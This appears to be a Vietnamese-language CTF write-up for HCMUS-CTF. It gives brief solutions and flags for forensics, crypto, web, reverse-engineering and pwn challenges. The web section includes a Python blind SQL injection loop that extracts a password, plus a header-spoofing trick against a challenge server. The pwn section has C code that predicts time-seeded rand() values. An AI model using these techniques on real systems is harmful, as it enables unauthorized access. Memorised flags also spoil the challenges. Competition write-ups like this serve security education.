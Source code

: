# HCMUS-CTF
## Forensics
### Docker Babe
- <code> docker pull pakkunandy/docker-babe </code>
- <code> docker run -t -i pakkunandy/docker-babe bash</code>
- <code> cat flag.txt </code>
- Flag: HCMUS-CTF{Docker_Is_an_essential_tool_You_have_to_learn_FORRRRSURRREEEE}

## Crypto
### Xor
- Xor cipher với key "HCMUS-CTF", ta thấy key = "FIT"
- Xor cipher với key "FIT"
- Flag: HCMUS-CTF{XoR_1s_a_KinD_oF_Crypto}
### The Ripper
- Dùng John với 2 file được cho, ta được username và password
- Flag: HCMUS-CTF{Use_John_the_ripper_to_crack_password_is_fun!!!HAHAHA}

## Web
### Secret Agent
- Thêm header: "User-Agent: eevee" vào request
- Flag: HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}
### Secret Dir
- Tìm được http://159.65.13.76:1338/
- Gửi request đến /flagpassword với header: "Referer: http://159.65.13.76:1338/flagflagflagflag", ta được username và password để vào /flagflagflagflag.
- Flag: HCMUS-CTF{1t_1zzzz_Crucial_t0_kn0W_Headers_and_R0b0tz}
### Blind SQL
- Blind SQL cơ bản
```
  for i in range(0, 50):
	print(i)
	for char in mchar:
		payload = "admin\' and password LIKE BINARY \'" + flag + char + "%"
		data = {'username': payload}
		x = requests.post(url, data)
		if "exists" in x.text:
			flag = flag + char
			break
print(flag)
```
- Flag: HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}

## RE
### Patient Revenge Revenge
- Patch file exe để vô hiệu hóa timer :D
- Flag: HCMUS-CTF{d0_y0u_kn0w_ARc_fourrrrrrrrrrrr}
### Z3
- Dùng IDA decompile chương trình, sau đó copy hàm checkme vào đưa cho z3-solver
- Flag: HCMUS-CTF{H4v3_y0u_ev3r_he4rd_0f_z3}
### Lucky mine
- Dùng cnSpy debug chương trình, đặt breakpoint ở hàm Init_Mine_Field(), ta tìm ra được các vị trí không phải bom
- Flag: HCMUS-CTF{C_SHARPez}

## Pwn
### Secret
- Hàm strncmp(a, b, n) chỉ so sánh n ký tự đầu tiên của chuỗi a, b
- Payload: HCMUS-CTF
- Flag: HCMUS-CTF{strncmp_is_so_fun}
### Store
- srand(time(0)) lấy seed là thời gian hiện tại
```
	time_t cur = time(0);
	for(int i = 0; i < 1000000; i++)
	{
		srand(cur - i);
		for(int j = 0; j < 3; j++)
		{	
			if(rand() % 123456 != price[j])
			{
				break;
			}
			if(j == 2)
			{
				printf("Next number %d\n", rand() % 123456);
				exit(0);
			}
		}
	}
```

